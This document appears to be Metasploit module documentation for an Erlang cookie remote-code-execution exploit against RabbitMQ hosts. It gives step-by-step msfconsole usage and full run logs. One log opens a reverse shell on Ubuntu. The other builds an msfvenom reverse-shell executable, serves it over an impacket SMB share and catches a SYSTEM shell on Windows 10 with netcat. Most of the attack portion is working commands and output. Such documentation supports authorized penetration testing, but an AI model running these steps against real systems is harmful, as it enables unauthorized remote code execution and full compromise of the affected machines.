 0## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/unix/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Select appropriate payload (default=cmd/unix/reverse)
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (varies per OS)

## Scenarios

### Ubuntu 16.04.5 LTS


```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)


```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  MOLKLGXHWQLTGUREBDKI  yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting              Required  Description
   ----  ---------------              --------  -----------
   CMD   \\W.X.Y.Z\BOB\t.exe  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Exploit completed, but no session was created.

--- Impacket SMB Server ---
root@kali:/tmp# msfvenom -p windows/x64/shell_reverse_tcp LHOST=W.X.Y.Z LPORT=3 -f exe -o t.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                 
[-] No arch selected, selecting arch: x64 from the payload                                             
No encoder or badchars specified, outputting raw payload                                               
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: t.exe
root@kali:/tmp# impacket-smbserver BOB .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                      

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                 
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (A.B.C.D,50349)
[*] AUTHENTICATE_MESSAGE (\,DESKTOP-85258BS)
[*] User \DESKTOP-85258BS authenticated successfully                                                   
[*] :::00::4141414141414141

--- Handler ---

root@kali:~# nc -lvp 3
Listening on [0.0.0.0] (family 0, port 3)
Connection from A.B.C.D 50350 received!
Microsoft Windows [Version 10.0.17134.407]
(c) 2018 Microsoft Corporation. All rights reserved.                                                   

C:\Users\667563~1\AppData\Roaming\RabbitMQ>whoami
whoami
nt authority\system

C:\Users\667563~1\AppData\Roaming\RabbitMQ>
```
